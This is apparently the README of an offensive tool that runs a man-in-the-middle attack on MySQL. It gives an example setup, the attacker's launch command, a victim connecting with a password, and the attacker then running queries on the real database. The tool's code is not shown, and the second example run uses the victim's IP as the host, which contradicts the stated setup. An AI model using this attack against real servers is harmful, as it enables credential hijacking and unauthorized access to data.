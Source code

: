 # mitmsql
Man in the Middle Attack for MySQL.

# Example

## Situation
- MySQL Server is running at `192.168.0.1`.
- MITMySQL Server (this script) will listen 0.0.0.0:3306 (*you can change this with `--lport` option*) at `192.168.0.2`.
- A victim (client) will connect to MITMySQL Server (this script) = `192.168.0.2`.
  - he has the credential for valid MySQL server `192.168.0.1`.

## How it works.
The attacker run this script at `192.168.0.2`.
```
$ python mitmysql.py --host 192.168.0.1
[*] WAITING FOR CLIENT...
```

The victim will connect to `192.168.0.2` from `192.168.0.3`, and input his password.
```
mysql -h 192.168.0.2 -p
```

When the authentication succeeded, the attacker will see the interpreter and he can execute queries to `192.168.0.1`.
```
$ python mitmysql.py --host 192.168.0.3
[*] WAITING FOR CLIENT...
[*] CONNECTED BY: ('192.168.0.3', 64600)
[+] GOT SERVER INFORMATION: 5.5.5-10.1.23-MariaDB-9+deb9u1
[+] AUTHENTICATION SUCCEEDED
>  show databases
(('information_schema',), ('mysql',), ('performance_schema',))
> use information_schema
()
>
```
